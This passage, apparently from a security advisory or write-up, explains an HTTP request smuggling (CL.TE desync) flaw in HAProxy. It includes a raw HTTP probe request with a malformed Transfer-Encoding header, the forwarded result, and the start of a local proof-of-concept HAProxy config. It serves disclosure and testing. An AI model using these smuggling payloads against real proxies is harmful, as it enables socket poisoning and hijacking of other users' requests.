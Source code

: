 In this case, the Transfer-Encoding is not detected by HAProxy, and so the Content-Length is used (and as such, the `X` is forwarded because it falls within the 6 bytes of body size specified). However, because the Transfer-Encoding remains in the request sent to the backend, it means that if a backend server manages to parse the Transfer-Encoding header and proceeds to treat the request as a TE encoded request, a desync could occur and the backend TCP socket could be poisoned (in this case, with an "X"). This could then lead to HTTP request smuggling. A way to test whether this might be the case on an app behind HAProxy would be to issue a request like as outlined in the [HTTP Request Smuggling Reborn](https://portswigger.net/blog/http-desync-attacks-request-smuggling-reborn) research:

```http
POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 4
Transfer-Encoding:chunked

1
Z
Q
```

Because it uses the Content-Length, HAProxy will forward the following to the backend:

```http
POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 4
Transfer-Encoding:
                  chunked
X-Forwarded-For: 172.21.0.1

1
Z
```

If the backend parses this request using Transfer-Encoding, then it will timeout waiting for the terminating '0\r\n\r\n'. The aforementioned research classifies it as "CL.TE" desync.

## Request smuggling proof of concept

Now we have HAProxy sending through both Content-Length and Transfer-Encoding with potentially conflicting information, we can try to achieve request smuggling. This can be demonstrated using the following setup.

### HAProxy config

Use this `haproxy.cfg`:

```
defaults
	mode http
  	timeout http-keep-alive 10s
	timeout connect 5s
	timeout server 60s
	timeout client 30s
	timeout http-request 30s

backend web
	http-reuse always
	server web0 host.docker.internal:6767

frontend http
	bind *:1080
	timeout client 5s
	timeout http-request 10s
  	default_backend web
```
